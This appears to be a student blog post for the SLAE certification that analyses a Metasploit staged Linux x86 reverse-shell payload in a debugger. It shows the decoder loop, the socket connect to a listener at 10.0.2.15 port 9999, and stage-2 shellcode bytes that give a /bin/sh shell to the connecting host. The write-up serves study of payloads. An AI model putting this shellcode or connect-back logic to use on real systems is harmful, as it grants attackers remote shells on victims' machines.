   0x0804a04e <+14>:	mov    cl,0xd                   ;loop 13 times
   0x0804a050 <+16>:	sub    eax,0xfffffffc           ;adds 0x4 to EAX
   0x0804a053 <+19>:	xor    DWORD PTR [eax+0x10],esi ;xoring the key with the following addresses
````
``Debugging decoding process``



``First decodification of obfuscated code using shikata_ga_nai``

This way, the instruction located at *0x0804a053* changes 4 bytes starting from address
*0x0804a059*, which decodes the first 2 instructions encoded.

After the loop finishes its execution, the decoded shellcode can be studied.



``Decoded shellcode``

---
Now, the current exploit starts.  

First, the program creates a socket for **AF_INET**.
````
=> 0x0804a05b <+27>:	xor    ebx,ebx
   0x0804a05d <+29>:	push   ebx
   0x0804a05e <+30>:	inc    ebx
   0x0804a05f <+31>:	push   ebx
   0x0804a060 <+32>:	push   0x2
   0x0804a062 <+34>:	push   0x66
   0x0804a064 <+36>:	pop    eax
   0x0804a065 <+37>:	mov    ecx,esp
   0x0804a067 <+39>:	int    0x80
````
``Debugging socket creation``

Then, the socket will connect to a listener on IP *10.0.2.15* and port *9999*. It is necessary to start a metasploit listener for the payload selected.



``Starting listener on port 9999``

````
   0x0804a069 <+41>:	xchg   edi,eax
   0x0804a06a <+42>:	pop    ebx
   0x0804a06b <+43>:	push   0xf02000a ;IP 10.0.2.15
   0x0804a070 <+48>:	pushw  0xf27     ;PORT 9999
   0x0804a074 <+52>:	push   bx
   0x0804a076 <+54>:	mov    ecx,esp
   0x0804a078 <+56>:	push   0x66
   0x0804a07a <+58>:	pop    eax
   0x0804a07b <+59>:	push   eax
   0x0804a07c <+60>:	push   ecx
   0x0804a07d <+61>:	push   edi
   0x0804a07e <+62>:	mov    ecx,esp
   0x0804a080 <+64>:	inc    ebx
   0x0804a081 <+65>:	int    0x80     ;connects
````
``Debugging connection process``

By checking the listener, it is possible to verify that there is a new incoming connection.



``Listener receiving a connection``

Then the program will read the second stage, so it will execute a read syscall.
````
   0x0804a083 <code+67>:	pop    ebx    ;file descriptor
   0x0804a084 <code+68>:	cdq           ;cleans EDX
   0x0804a085 <code+69>:	mov    dh,0xc ;c00 = 3072 to read
   0x0804a087 <code+71>:	mov    al,0x3 ;sys_read
   0x0804a089 <code+73>:	int    0x80
   0x0804a08b <+75>:	jmp    ecx            ;then jumps into ECX for stage 2
````
``Debugging read function``

### Stage 2
To analyse stage 2, it could be possible to use a simpler method. Just generating the shellcode from *msfconsole*.



``Stage 2 generated``

Then it is possible to get the shellcode instructions using *ndisasm*.
````
echo -ne "\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" | ndisasm -u -
````
``Using ndisasm to obtain instructions from shellcode``



``Stage 2 shellcode disasembled and explained``

As this shellcode has been analysed before, a simple analysis is included on the snapshot. It will redirect the input and output to the socket, and then it will execute */bin//sh* to create the shell.

After execution of *shellcode* without disassembling it, is possible to verify that the connection is successful and the second stage is executed.



``Shellcode successfully executed``

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

*https://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

*Student ID: SLAE-1376*
